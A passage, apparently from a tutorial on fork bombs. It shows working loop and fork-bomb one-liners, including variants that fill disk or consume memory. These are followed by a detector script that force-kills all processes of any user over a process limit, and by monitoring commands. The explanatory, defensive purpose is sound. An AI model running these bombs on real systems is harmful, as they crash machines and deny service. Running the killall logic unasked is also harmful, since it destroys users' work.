 ```bash

# Shell loop bomb
while true; do
    $0 &
done
```

### Hybrid Attacks

```bash
# Fork bomb + disk fill
:(){ : | :& echo "data" >> /tmp/fill & };:

# Fork bomb + memory consumption
:(){ : | :& cat /dev/zero | head -c 100M > /dev/null & };:
```

## Detection and Monitoring

### Automated Detection

```bash
#!/bin/bash
# fork_bomb_detector.sh

MAX_PROCESSES=500
CHECK_INTERVAL=5

while true; do
    for user in $(cut -d: -f1 /etc/passwd); do
        count=$(ps -u "$user" --no-headers | wc -l)
        if [ "$count" -gt "$MAX_PROCESSES" ]; then
            echo "[ALERT] User $user has $count processes"
            # Take action: notify, throttle, or kill
            killall -9 -u "$user"
        fi
    done
    sleep "$CHECK_INTERVAL"
done
```

### Using Modern Tools

```bash
# With systemd
systemctl status user-1000.slice

# With htop (better visualization)
htop -u username

# With atop (historical data)
atop -P PRC

# Process tree
pstree -p username
```
